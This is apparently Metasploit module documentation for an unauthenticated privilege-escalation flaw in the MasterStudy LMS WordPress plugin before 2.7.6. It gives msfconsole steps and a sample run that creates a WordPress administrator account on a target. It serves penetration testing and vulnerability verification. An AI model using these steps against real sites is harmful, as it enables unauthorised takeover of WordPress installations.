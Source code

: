 ## Vulnerable Application

MasterStudy LMS, a WordPress plugin,
prior to 2.7.6 is affected by a privilege escalation where an unauthenticated
user is able to create an administrator account for wordpress itself.

[The vulnerable version is available on WordPress' plugin directory](https://downloads.wordpress.org/plugin/masterstudy-lms-learning-management-system.2.7.5.zip).

## Verification Steps

  1. `msfconsole`
  2. `use auxiliary/admin/http/wp_masterstudy_privesc`
  3. `set RHOSTS <rhost>`
  4. `run`

## Options

### USERNAME

Set a `USERNAME` if desirable. Defaults to empty, and random generation.

### PASSWORD

Set a `PASSWORD` if desirable. Defaults to empty, and random generation.

### EMAIL

Set a `EMAIL` if desirable. Defaults to empty, and random generation.

## Scenarios

### MasterStudy 2.7.5 on WordPress 5.7.5

```
[*] Processing masterstudy.rb for ERB directives.
resource (masterstudy.rb)> use auxiliary/admin/http/wp_masterstudy_privesc
resource (masterstudy.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (masterstudy.rb)> set verbose true
verbose => true
resource (masterstudy.rb)> run
[*] Running module against 1.1.1.1
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/masterstudy-lms-learning-management-system/readme.txt
[*] Found version 2.7.5 in the plugin
[+] The target appears to be vulnerable.
[*] Attempting with username: ujukzntw7 password: TbxjFm0znF email: ashley.thompson@gcvz2cibu.org
[+] Account Created Successfully
[*] Auxiliary module execution completed
```

